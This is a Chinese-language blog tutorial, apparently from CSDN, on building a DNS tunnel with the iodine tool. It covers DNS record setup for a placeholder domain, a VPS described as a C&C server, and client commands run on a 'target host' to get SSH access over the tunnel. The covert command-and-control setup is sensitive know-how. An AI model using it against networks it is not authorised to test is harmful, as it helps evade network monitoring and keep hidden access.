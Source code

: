 **目录**

[iodine](#t0 "iodine")

[使用iodin搭建隧道](#t1 "使用iodin搭建隧道")

[（1）：部署域名解析](#t2 "（1）：部署域名解析")

[（2）：安装并启动服务端](#t3 "（2）：安装并启动服务端")

[（3）：安装并启动客户端](#t4 "（3）：安装并启动客户端")

[（4）：使用DNS隧道](#t5 "（4）：使用DNS隧道")

* * *

iodine
======

iodine是基于C语言开发的，分为服务端和客户端。iodine支持转发模式和中继模式。其原理是：通过TAP虚拟网卡，在服务端建立一个局域网；在客户端，通过TAP建立一个虚拟网卡；两者通过DNS隧道连接，处于同一个局域网(可以通过ping命令通信)。在客户端和服务器之间建立连接后，客户机上会多出一块名为dns0的虚拟网卡。

与同类工具相比，iodine具有如下特点：

*   不会对下行数据进行编码
*   支持多平台(Linux、Windows、MacOS)
*   支持16个并发连接
*   支持强密码机制
*   支持同网段隧道IP地质(不同于服务器一客户端网段)
*   支持多种DNS记录类型
*   提供了丰富的隧道质量检测措施

使用iodin搭建隧道
===========

### **（1）：部署域名解析**

首先，用一台公网的Linux系统的VPS作为C&C服务器，并准备好一个可以配置的域名(这里我们假设是hack.com)。然后，去配置域名的记录。首先创建记录A，将自己的域名 www.hack.com 解析到VPS服务器地址。然后，创建NS记录，将 test.hack.com 指向 www.hack.com 。

*   第一条A类解析是在告诉域名系统，www.hack.com 的IP地址是 xx.xx.xx.xx 。
*   第二条NS解析是在告诉域名系统，想要知道 test.hack.com 的IP地址，就去问 www.hack.com 。

![](https://img-blog.csdnimg.cn/20200220235659545.png)

为什么要设置NS类型的记录呢？因为NS类型的记录不是用于设置某个域名的DNS服务器的，而是用于设置某个子域名的DNS服务器的。

**如何验证域名解析设置是否成功？**  
在随便一台电脑上ping域名 www.hack.com ，若能ping通，且显示的IP地址是我们配置的VPS的地址，说明第一条A类解析设置成功并已生效。

![](https://img-blog.csdnimg.cn/20200220235947885.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后在我们的VPS上执行以下命令监听UDP53端口

```
tcpdump -n -i eth0 udp dst port 53
```


在任意一台机器上执行  nslookup test.hack.com 命令，如果在我们的VPS监听的端口有查询信息，说明第二条记录设置成功

![](https://img-blog.csdnimg.cn/20200221000107365.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### （2）：安装并启动服务端

Kali中默认安装了iodine，但是我们这里用的服务端是Centos7系统，可以执行命令：yum -y install iodine 安装。如果是Windows系统，可以安装编译好的对应版本的iodine。

![](https://img-blog.csdnimg.cn/20200221164500801.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

执行以下命令启动服务端

```
iodined -f -c -P root@123456 192.168.100.1 test.hack.com -DD      
    -f：在前台运行      
    -c：禁止检查所有传入请求的客户端IP地址      
    -P：指定密码      
    -D：指定调试级别。-DD指第二级，D的数量随等级增加      
    这里的192.168.10.1是自定义的局域网虚拟IP地址
```


![](https://img-blog.csdnimg.cn/20200221191518605.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

启动完后，可以通过iodine检查页面：[kryo.se: iodine test page](https://code.kryo.se/iodine/check-it/ "kryo.se: iodine test page")  检查配置是否正确。如下，表示设置成功

![](https://img-blog.csdnimg.cn/20200221170009420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

服务端启动成功后，VPS上多了一块dns0的网卡，ip为我们设置的192.168.100.1

![](https://img-blog.csdnimg.cn/20200221191415963.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### （3）：安装并启动客户端

**Windows系统**

如果是Windows系统，直接执行下面命令启动客户端，但是启动的过程中，会遇到杀毒软件的报毒，并且需要管理员权限执行命令才可以启动

```
iodine.exe -f -P root@123456 test.hack.com
```


![](https://img-blog.csdnimg.cn/20200221170331762.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200221170521622.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

那我们现在就以管理员权限运行该命令，如图，DNS隧道建立成功

![](https://img-blog.csdnimg.cn/20200221203156177.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

查看客户端网卡，多了一张以太网2，IP为192.168.100.2。此时，我们的VPS和客户端处在同一个逻辑的局域网内。

![](https://img-blog.csdnimg.cn/20200221202939132.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

但是此时ping服务端的192.168.100.1地址却ping不通，不知为何，客户端如果是Linux则不会有此情况。

![](https://img-blog.csdnimg.cn/2020022120442418.png)

**Linux系统**

如果是Linux系统，先安装iodine。上传iodlie客户端到目标主机，解压，进入目录安装

```
cd iodine-0.7.0/      
make && make install
```


![](https://img-blog.csdnimg.cn/20200221173920652.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后执行下面命令连接服务端(需要root权限)，如图连接成功。

```
iodine -f -P root@123456 test.hack.com
```


![](https://img-blog.csdnimg.cn/20200221173206518.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

连接成功后，客户端上新建了一个dns0的网卡，IP地址为192.168.100.2

![](https://img-blog.csdnimg.cn/20200221173542822.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后ping服务端地址192.168.100.1，能互通！

![](https://img-blog.csdnimg.cn/2020022117343312.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### （4）：使用DNS隧道

客户端和服务端连接成功后，由于客户端和服务端处在一个逻辑的局域网中，所以可以直接通。

**服务端SSH连接客户端**

![](https://img-blog.csdnimg.cn/20200221175450651.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**客户端SSH连接服务端**

![](https://img-blog.csdnimg.cn/20200221173802660.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

其他服务也是一样，可以直接指定虚拟局域网的IP和端口就可连接。

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)